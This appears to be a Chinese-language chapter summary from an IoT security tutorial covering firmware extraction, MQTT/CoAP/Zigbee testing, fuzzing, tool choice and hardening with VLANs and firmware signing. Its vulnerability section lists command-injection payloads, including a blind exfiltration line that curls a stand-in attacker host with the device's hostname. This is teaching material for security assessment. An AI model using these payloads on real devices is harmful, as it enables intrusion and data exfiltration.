


## 本节小结

IoT安全核心技巧的知识体系涵盖固件分析、协议测试、漏洞挖掘、安全防护和工具运用五大领域。本节的五篇文章从"道-法-术-器"四个层次递进展开，为读者构建了一套从入门到精通的完整技能框架。以下从知识体系梳理、核心技能对照、常见思维误区、实战能力进阶四个维度进行总结。

---

### 一、知识体系总览：五维能力模型

IoT安全的核心技巧可以抽象为以下五个相互关联的能力维度，它们构成了一个完整的技能闭环：



**各维度的定位与关系：**

| 维度 | 核心定位 | 关键产出 | 依赖前置技能 |
|------|---------|---------|------------|
| 22.1 固件分析 | 静态分析，理解设备内部逻辑 | 文件系统结构、硬编码凭据、协议端点 | 嵌入式系统基础 |
| 22.2 协议测试 | 动态分析，验证通信安全 | MQTT/CoAP/Zigbee等协议漏洞 | 网络协议基础 |
| 22.3 漏洞挖掘 | 发现并验证安全缺陷 | 命令注入、缓冲区溢出、逻辑漏洞 | 固件分析+协议测试 |
| 22.4 安全防护 | 从攻击视角反推防御方案 | 配置加固、网络隔离、固件签名 | 前三个维度的理解 |
| 22.5 工具集 | 提升各环节效率 | 自动化扫描、逆向分析、模糊测试 | 各维度分别对应 |

**闭环工作流示意：**

一个典型的IoT安全评估项目遵循如下流程：

1. **固件提取** → 使用Binwalk/FACT解析固件，获取文件系统
2. **固件分析** → 用Firmwalker/Ghidra扫描硬编码凭据和后门
3. **启动模拟** → 通过Firmadyne/QEMU模拟运行固件
4. **网络捕获** → 启动Wireshark监听设备通信流量
5. **协议测试** → 分析MQTT/CoAP等协议的安全配置
6. **漏洞验证** → 使用boofuzz/sulley进行模糊测试
7. **结果汇总** → 形成安全评估报告，提出修复建议

这七个步骤覆盖了从"拿到设备"到"输出报告"的完整链路。

---

### 二、核心技术要点精析

#### 2.1 固件分析技术的三条路径

固件分析的本质是从二进制镜像中恢复设备逻辑。主流的三种提取路径各有优劣：

| 提取路径 | 难度等级 | 成功率 | 所需硬件 | 典型场景 |
|---------|---------|-------|---------|---------|
| Web接口下载 | ⭐ | 高（如有漏洞） | 无 | 消费级路由器、IP摄像头 |
| UART/JTAG调试 | ⭐⭐ | 中 | USB转TTL、逻辑分析仪 | 开发板、工业控制器 |
| SPI/I2C闪存读取 | ⭐⭐⭐ | 高（物理接触） | SPI编程器（CH341A） | 无法通过软件提取的设备 |

**关键点：** UART接口是最常用的调试入口。识别PCB上UART引脚的通用方法——万用表测量法（GND→0V，VCC→3.3V/5V，TX→3.3V脉冲信号，RX→空闲高电平）——是所有IoT安全从业者的基本功。

固件解包后的分析重点包含五个检查项：

1. **/etc/shadow 或 /etc/passwd** — 硬编码用户账户和哈希密码
2. **SSL证书和私钥** — 硬编码证书可能导致通信被劫持
3. **Web目录中的配置文件** — 数据库连接字符串、API密钥
4. **启动脚本** — 调试接口、默认服务、后门
5. **二进制文件中的字符串** — 调试路径、开发者注释、通用密码

#### 2.2 通信协议安全的三大防线

IoT设备使用的通信协议多样，测试时需针对协议特性分别设计测试方案：

**MQTT协议测试要点：**

| 测试项 | 风险级别 | 测试方法 | 预期结果 |
|-------|---------|---------|---------|
| 匿名访问 | 严重 | mosquitto_sub无认证连接 | 应拒绝连接 |
| 通配符订阅 | 严重 | 订阅 `#` 或 `$SYS/#` | 应限制通配符使用 |
| TLS配置 | 高 | 检查是否强制使用TLS | 应强制TLS |
| 弱密码 | 中 | 测试常见密码组合 | 应使用强密码策略 |
| 主题泄露 | 中 | 枚举所有可用主题 | 最小权限原则 |

**CoAP协议测试要点：**

- 资源发现（`/.well-known/core`）应限制暴露程度
- 无DTLS加密等同于明文传输，所有数据可被中间人读取
- Observe机制可能被用于放大攻击
- 块传输（Block-wise）存在分片绕过风险

**Zigbee/BLE测试要点：**

- 密钥需在配网阶段安全交换，不可硬编码
- 嗅探工具（如Ubertooth、KillerBee）可捕获无线帧，分析网络密钥
- Zigbee的信任中心（Trust Center）是单点故障，攻破即可控制整个网络

#### 2.3 漏洞挖掘的四个关键方向

IoT设备漏洞挖掘应聚焦四大类：

| 漏洞类型 | 常见位置 | 测试工具 | 危害程度 |
|---------|---------|---------|---------|
| Web接口漏洞 | 管理后台、API端点 | Burp Suite、gobuster、wfuzz | 高 |
| 命令注入 | ping/traceroute、固件升级 | commix、手工Payload | 严重 |
| 缓冲区溢出 | 固件C/C++代码 | Ghidra、boofuzz、radare2 | 严重 |
| 逻辑漏洞 | 认证机制、权限控制 | 手工分析 | 中-高 |

**命令注入的Payload演进（由简到繁）：**

```text
第1层：直接注入 → ; ls 、 | id
第2层：命令替换 → $(whoami)、`uname -a`
第3层：编码绕过 → %3Bls（URL编码）、&#59;ls（HTML实体）
第4层：无回显 → ; curl http://attacker.com/$(hostname)
第5层：时间盲注 → ; sleep 5 && ping -c 1 8.8.8.8
```

**模糊测试的核心策略：**

- **协议变体测试：** 针对MQTT、CoAP、HTTP分别构造畸形数据包
- **边界值测试：** 变量名255字符、密码1000字符、温度-9999°C
- **类型混淆测试：** 字符串字段传数组、数字字段传字符串
- **状态遍历测试：** 绕过正常的握手顺序，发送非预期状态包
- **重放攻击测试：** 捕获合法数据包后修改关键字段重放

#### 2.4 安全防护的纵深防御体系

防护不是单一措施，而是一个由外到内的多层级防御体系：



**各层级的关键配置示例：**

**网络层（VLAN隔离）：**
```bash
# 创建IoT专用VLAN（以OpenWrt为例）
uci set network.iot=interface
uci set network.iot.type='bridge'
uci set network.iot.proto='static'
uci set network.iot.ipaddr='192.168.10.1'
uci set network.iot.netmask='255.255.255.0'
uci commit network
/etc/init.d/network restart

# 限制IoT VLAN访问内部网络
iptables -I FORWARD -i iot -d 192.168.0.0/16 -j DROP
iptables -I FORWARD -i iot -d 10.0.0.0/8 -j DROP
```

**设备层（固件签名验证）：**
```bash
# 生成签名对
openssl genrsa -out firmware-signing-key.pem 4096
openssl rsa -in firmware-signing-key.pem -pubout > firmware-public-key.pem

# 签名固件
openssl dgst -sha256 -sign firmware-signing-key.pem \
  -out firmware.bin.sig firmware.bin

# 设备端验证
openssl dgst -sha256 -verify firmware-public-key.pem \
  -signature firmware.bin.sig firmware.bin
```

---

### 三、工具矩阵速查表

根据五大技能维度整理对应的核心工具及其用法：

| 维度 | 工具 | 安装方式 | 核心命令/用法 | 学习优先级 |
|------|-----|---------|-------------|-----------|
| 固件提取 | Binwalk | `pip install binwalk` | `binwalk -Me firmware.bin` | ★★★★★ |
| 固件分析 | Firmwalker | `git clone ...` | `./firmwalker.sh firmware-dir/` | ★★★★ |
| 固件分析 | Ghidra | 需安装Java环境 | GUI操作，自动反编译 | ★★★★★ |
| 协议分析 | Wireshark | `apt install wireshark` | GUI+tshark CLI | ★★★★★ |
| MQTT测试 | mosquitto | `apt install mosquitto-clients` | `mosquitto_sub -t "#"` | ★★★★ |
| Zigbee测试 | KillerBee | `pip install killerbee` | `zbfind -i 0` | ★★★ |
| BLE测试 | Ubertooth | 需编译安装 | `ubertooth-rx -f 2440` | ★★★ |
| Web测试 | Burp Suite | 下载安装 | 代理+Repeater+Intruder | ★★★★★ |
| 目录扫描 | gobuster | `apt install gobuster` | `gobuster dir -u URL -w wordlist` | ★★★★ |
| 模糊测试 | boofuzz | `pip install boofuzz` | 编写Python脚本 | ★★★★ |
| 逆向分析 | radare2 | `apt install radare2` | `r2 firmware.bin` | ★★★★ |
| 固件对比 | FACT | Docker部署 | Web GUI | ★★★ |
| 设备模拟 | Firmadyne | Docker部署 | 自动模拟固件 | ★★★★ |

**工具学习路线建议：**

- **入门阶段（1-2周）：** Wireshark + Burp Suite + gobuster — 三款工具覆盖80%的日常测试需求
- **进阶阶段（3-4周）：** Binwalk + Ghidra + mosquitto — 深入固件分析和协议测试
- **精通阶段（5-8周）：** boofuzz + radare2 + Firmadyne — 自动化漏洞挖掘和深度逆向
- **专业阶段（持续）：** FACT + KillerBee + Ubertooth — 专项领域纵深

---

### 四、常见思维误区和纠正

根据经验总结，IoT安全初学者最常犯的六个错误：

| 错误思维 | 表现 | 纠正方法 |
|---------|------|---------|
| 只重软件不重硬件 | 忽略物理接口风险，认为"网络攻防就够了" | 从UART/JTAG调试口开始入门硬件安全 |
| 固件分析只看文件 | 只提取文件系统，不做运行时分析 | 使用Firmadyne/QEMU模拟运行固件，观察运行时行为 |
| 协议测试只测MQTT | 忽略CoAP、Zigbee、BLE等协议 | 根据设备通信方式选择对应的协议测试工具 |
| 漏洞挖掘依赖自动化 | 跑完扫描工具就认为完成了评估 | 手动验证每个发现，结合业务逻辑分析 |
| 防护只做单点加固 | 只改密码不隔离网络 | 建立纵深防御体系，网络+设备+应用+运维全覆盖 |
| 忽视供应链安全 | 只分析最终设备，不追溯上游组件 | 检查开源组件版本，识别已知CVE漏洞 |

---

### 五、与后续章节的衔接

本节掌握的"核心技巧"是通向IoT安全实战的桥梁：

- **实战案例（下一节）：** 将本节学到的固件分析、协议测试、漏洞挖掘方法应用到智能家居、医疗设备、车联网等真实场景中，每个案例都会还原完整的技术链路
- **常见误区（下节）：** 汇总从业者在实际项目中容易踩的坑，帮助读者避免重蹈覆辙
- **深度拓展（最后）：** 介绍固件虚拟化、侧信道攻击、硬件逆向等进阶主题

建议读者按照"技巧学习 → 案例分析 → 自主实践 → 深度拓展"的路径进行系统性训练，每掌握一个技巧后立即在实战案例中找到对应的应用场景。

---

### 六、技能自测清单

以下是本节的核心技能点，请逐一评估自己的掌握程度：

| 技能点 | 掌握标准 | 自评 |
|-------|---------|------|
| UART接口识别与连接 | 能在PCB上识别4个引脚并用screen连接 | [ ] 是 [ ] 否 |
| Binwalk固件解包 | 能完整提取文件系统并进行初步分析 | [ ] 是 [ ] 否 |
| MQTT匿名访问测试 | 能编写Python脚本测试匿名连接和通配符订阅 | [ ] 是 [ ] 否 |
| 命令注入Payload构造 | 能根据过滤规则绕过限制执行命令 | [ ] 是 [ ] 否 |
| Burp Suite代理设置 | 能配置上游代理拦截并修改IoT设备流量 | [ ] 是 [ ] 否 |
| VLAN隔离配置 | 能独立完成IoT设备的VLAN划分 | [ ] 是 [ ] 否 |
| 固件签名验证部署 | 能实现从签名生成到远程验证的全流程 | [ ] 是 [ ] 否 |
| 模糊测试脚本编写 | 能使用boofuzz为自定义协议编写测试用例 | [ ] 是 [ ] 否 |

如果以上8项中超过5项回答"否"，建议重新阅读对应章节并动手实践；如果全部回答"是"，你已经具备了独立进行IoT安全评估的能力，可以进入实战案例环节。

---

### 七、推荐学习路径

根据不同的职业目标，推荐差异化的精进方向：

**渗透测试工程师方向：**
- 重点：漏洞挖掘（22.3）+ 协议测试（22.2）
- 精通工具：Burp Suite、boofuzz、Wireshark
- 配合练习：HackTheBox IoT靶机、OVAL IoT挑战

**安全运维工程师方向：**
- 重点：安全防护（22.4）+ 固件分析（22.1）
- 精通工具：Binwalk、FACT、iptables配置
- 配合练习：自主搭建IoT环境并实施加固

**嵌入式安全研究员方向：**
- 重点：固件分析（22.1）+ 漏洞挖掘（22.3）
- 精通工具：Ghidra、radare2、Firmadyne
- 配合练习：参与CTF中IoT题目、开源固件审计

**产品安全工程师方向：**
- 重点：安全防护（22.4）+ 工具集（22.5）
- 精通工具：FACT、Firmwalker、SAST工具
- 配合练习：建立SDLC安全流程，制定安全基线

---

***本节的"核心技巧"是IoT安全实践的基础。这些技巧之间相互关联、层层递进，建议在实际项目中反复运用，将理论转化为肌肉记忆。下一节的"实战案例"将把这些技巧应用到六个真实的IoT安全场景中，涵盖智能家居、工业控制、车联网、医疗设备等领域，帮助读者完成从"知道"到"做到"的关键跨越。***

***本节内容未完待续。进入实战案例环节后，你将有更多机会动手操作每一项工具和技术。***

---

**参考资源：**
- OWASP IoT Top 10 — IoT安全风险评估标准
- NIST SP 800-183 — IoT系统安全指南
- Attify IoT Security Framework — 通用IoT安全评估方法论
- 「IoT安全攻防实战」— 固件分析和协议测试案例集